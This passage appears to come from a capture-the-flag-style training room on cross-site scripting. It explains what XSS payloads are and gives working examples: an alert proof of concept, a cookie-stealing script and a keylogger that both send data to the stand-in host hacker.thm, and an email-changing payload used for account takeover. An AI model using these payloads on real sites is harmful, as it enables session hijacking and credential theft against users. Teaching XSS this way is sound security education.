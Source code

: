 --- ---

<h4>What is XSS</h4>

Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.

- What is a payload?

	In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

	The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

	Here are some examples of XSS intentions.

- Proof Of Concept:

	This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

	`<script>alert('XSS');</script>`

- Session Stealing:

	Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

	`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

- Key Logger:

	The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

	`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

- Business Logic:

	This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

	`<script>user.changeEmail('attacker@hacker.thm');</script>`

	Now that the email address for the account has changed, the attacker may perform a reset password attack.
